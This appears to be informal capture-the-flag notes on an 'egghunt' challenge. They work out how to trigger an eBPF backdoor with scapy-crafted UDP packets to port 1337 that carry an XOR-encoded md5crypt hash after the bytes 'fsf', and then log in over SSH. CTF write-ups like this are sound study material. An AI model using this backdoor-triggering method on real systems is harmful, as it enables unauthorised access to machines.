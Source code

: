 
http://vger.kernel.org/~davem/skb.html

checks are:
ip version = 4, ip header len = 20 bytes, protocol = udp, dst port = 1337, udp len = 42, payload starts with fsf (0x66, 0x73, 0x66)

```
sudo scapy
>>> p = IP(dst="127.0.0.1")/UDP(dport=1337, len=42)/Raw("fsf"+31*"b")
>>> send(p)
.
Sent 1 packets.
```

-> should do something, but doesnt look like?
-> somehow the scapy crafted udp packet is not relayed through qemu port forward
-> installing scapy inside qemu image

```
apt install python3-scapy
```
$1$ is md5 (3 bytes)
31 bytes, fits perfectly after fsf to use 34 bytes of udp data

```
>>> packet = IP(dst="127.0.0.1")/UDP(dport=1337)/Raw("fsf"+31*"b")
>>> send(packet)
.
Sent 1 packets.
```

```
root@egghunt:~# bpftool map dump id 4
[{
        "value": {
            ".bss": [{
                    "backdoor": {
                        "enabled": true,
                        "hash": "$1$                               "
                    }
                }
            ]
        }
    }
]
```

approach:
I think that you can provide it with a hash
After fsf
The value is xor‘d with 66
So pick an md5 hash of your choice (hex repr!), xor it with 66 and put into udp data after fsf
And then login via ssh

```
mkpasswd -m md5crypt
Password: pass
$1$wtuNYIeB$Bo28F812s3/AhXWZWIcso.
```
